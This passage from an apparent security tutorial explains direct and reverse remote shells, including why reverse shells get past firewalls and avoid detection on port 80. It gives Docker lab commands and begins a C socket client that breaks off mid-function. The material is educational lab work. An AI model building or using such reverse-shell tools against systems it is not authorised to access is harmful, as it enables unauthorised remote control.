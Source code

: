# Remote shell

From a security point of view, a remote shell is usually part of a shellcode to enable unauthorized remote access to a system. This tutorial is heavily based in [1], [2], [3] and [4].

----

**Note**: as in previous tutorials, there's a docker container that facilitates reproducing the work of this tutorial. The container can be built with:
```bash
docker build -t basic_cybersecurity5:latest .
```
and runned with:
```bash
docker run --privileged -it basic_cybersecurity5:latest
```

----

The content used for this tutorial will be touching into remote shells.

According to [1], there are basically two ways to get remote shell access:

- **Direct Remote Shells**. A direct remote shell behaves as a server. It works like a ssh or telnet server. The remote user/attacker, connects to a specific port on the target machine and gets automatically access to a shell.
- **Reverse Remote Shells**. These ones work the other way around. The application running on the target machine connects back (calls back home) to a specific server and port on a machine that belongs to the user/attacker.

The *Reverse Shell* method has some advantages:

- Firewalls usually block incoming connections, but they allow outgoing connection in order to provide Internet access to the machine’s users.
- The user/attacker does not need to know the IP of the machine running the remote shell, but s/he needs to own a system with a fixed IP, to let the target machine call home.
- Usually there are many outgoing connections in a machine and only a few servers (if any) running on it. This makes detection a little bit harder, specially if the shell connects back to something listening on port 80…

Let's write a client and a server that will allow us to explore both  methods:

### The client
```C
#include <stdio.h>
#include <stdlib.h>  
#include <unistd.h>
#include <sys/socket.h>
#include <arpa/inet.h>

int
client_init (char *ip, int port)
{
  int                s;
  struct sockaddr_in serv;

  if ((s = socket (AF_INET, SOCK_STREAM, 0)) < 0)
    {
      perror ("socket:");
      exit (EXIT_FAILURE);
    }

  serv.sin_family = AF_INET;
  serv.sin_port = htons(port);
  serv.sin_addr.s_addr = inet_addr(ip);

  if (connect (s, (struct sockaddr *) &serv, sizeof(serv)) < 0)
```